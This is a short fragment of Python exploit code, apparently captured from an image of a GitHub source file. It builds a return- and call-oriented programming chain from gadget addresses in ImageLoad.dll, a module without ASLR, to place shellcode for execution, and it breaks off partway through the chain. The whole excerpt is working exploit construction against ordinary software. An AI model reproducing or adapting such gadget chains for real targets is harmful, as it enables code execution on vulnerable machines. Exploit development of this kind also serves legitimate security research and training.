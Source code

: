 ```python
crash += struct.pack('<L', 0x90909090)    # Compensate for above ROP gadget

# Changing lpBuffer placeholder to actual address of shellcode
crash += struct.pack('<L', 0x10021bfb)    # mov dword [ecx+0x8], eax ; ret: ImageLoad.dll (non-ASLR enabled module)

# nSize parameter (0x180 = 384 bytes)
crash += struct.pack('<L', 0x100103ff)    # pop edi ; ret: ImageLoad.dll (non-ASLR enabled module) (Compensation for COP gadget add edx, 0x20)
crash += struct.pack('<L', 0x1001c31e)    # add esp, 0x8 ; ret: ImageLoadl.dll (non-ASLR enabled module) (Returns to stack after COP gadget)
crash += struct.pack('<L', 0x10022c4c)    # xor edx, edx ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)

